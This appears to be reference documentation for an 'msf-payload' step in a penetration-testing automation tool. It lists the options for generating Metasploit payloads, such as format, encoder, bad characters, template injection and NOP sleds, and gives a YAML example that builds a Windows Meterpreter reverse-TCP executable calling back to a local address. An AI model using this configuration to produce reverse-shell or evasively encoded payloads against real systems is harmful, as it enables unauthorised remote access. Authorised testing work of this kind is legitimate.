 ===========
msf-payload
===========

Generate metasploit payloads and save the payload to a file.

.. code-block:: yaml

   - type: msf-payload
     cmd: windows/meterpreter/reverse_tcp
     format: exe
     payload_options:
       LHOST: 192.168.100.1
       LPORT: 1111
     local_path: /tmp/payload.exe

   - type: shell
     cmd: cat $LAST_MSF_PAYLOAD

.. confval:: cmd

   The payload to generate.

   :type: str
   :required: ``True``

.. confval:: format

   Generate the payload in this format. See metasploit documentation to find out the supported formats

   :type: str
   :default: ``raw``

.. confval:: payload_options

   Typical payload_options are LHOST or LPORT for reverse shells. Dict(key/values) of payload options.

   :type: Dict[str,str]

.. confval:: local_path

   Copy the payload to this local path.
   If not set, the payload will be saved in a temporary path.

   :type: str

.. confval:: badchars

   Characters to avoid example: '\x00\xff'

   :type: str

.. confval:: force_encode

   Force encoding

   :type: bool
   :default: ``False``

.. confval:: encoder

   The encoder to use. ``msfvenom --list  encoders`` to list

   :type: str

.. confval:: template

   Specify a custom executable file to use as a template

   :type: str(path)

.. confval:: platform

   The platform for the payload. ``msfvenom --list platforms`` to list

   :type: str

.. confval:: keep_template_working

   Preserve the template behaviour and inject the payload as a new thread

   :type: bool
   :default: ``False``

.. confval:: nopsled_size

   Prepend a nopsled of [length] size on to the payload

   :type: int
   :default: ``0``

.. confval:: iter

   The number of times to encode the payload

   :type: int
   :default: ``0``
